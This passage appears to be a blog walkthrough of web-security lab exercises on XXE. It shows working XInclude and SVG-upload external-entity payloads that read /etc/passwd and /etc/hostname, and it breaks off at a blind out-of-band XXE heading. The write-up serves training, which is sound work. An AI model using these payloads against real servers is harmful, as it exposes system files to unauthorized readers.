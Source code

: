 ```xml
<foo xmlns:xsi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/XXE/Exploiting-XInclude-to-retrieve-files-1.png)



in response 

"XML parser exited with non-zero code 1: The prefix "xi" for element "xi:include" is not bound.
"

tell use to use xi as perfix for xi:incude so or payload will be

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```


> The xmlns attribute specifies the xml namespace for a document.


![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/XXE/Exploiting-XInclude-to-retrieve-files-2.png)

Labe Solved

------------

# Lab: Exploiting XXE via image file upload

we need to read /etc/hostname file throw svg file injected with our payload. creat the payload contain xml code injected with 

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
```

payload will be

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY H3X0S3 SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&H3X0S3;</text></svg>
```

[standalone=yes](https://forums.asp.net/t/1799986.aspx?what+does+standalone+yes+mean "standalone=yes")

go to type any comment and upload the svg file and return to view the avatar 

![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/XXE/Exploiting-XXE-via-image-file-upload.png)

Labe Solved

------------

# Lab: Blind XXE with out-of-band interaction
